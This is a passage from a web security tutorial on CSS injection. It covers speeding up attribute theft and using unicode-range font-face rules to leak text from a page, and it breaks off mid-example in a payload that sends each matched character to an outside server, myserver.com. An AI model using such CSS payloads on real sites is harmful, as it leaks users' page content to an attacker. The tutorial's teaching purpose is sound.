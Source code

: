 If there are not many characters that may appear in the content, such as 16, we can directly steal two beginnings and two ends at a time, and the total number of CSS rules is `16*16*2` = 512, which should still be within an acceptable range and can speed up the process by another two times.

In addition, we can also improve towards the server side, such as using HTTP/2 or even HTTP/3, which have the opportunity to speed up the loading speed of requests and improve efficiency.

## Stealing other things

Besides stealing attributes, is there any way to steal other things? For example, other text on the page? Or even the code in the script?

According to the principle we mentioned in the previous section, it is impossible to do so. The reason we can steal attributes is that the "attribute selector" allows us to select specific elements, and in CSS, there is no selector that can select "text content".

Therefore, we need to have a deeper understanding of CSS and styles on the webpage to achieve this seemingly impossible task.

### unicode-range

In CSS, there is a property called "unicode-range", which can load different fonts for different characters. For example, the following example is taken from [MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range):

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>

```

The unicode of `&` is `U+0026`, so only the character `&` will be displayed in a different font, and the others will use the same font.

Front-end engineers may have used this trick, for example, to use different fonts to display English and Chinese. This trick can also be used to steal text on the page, like this:

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
        src: url(https://myserver.com?q=2);
```
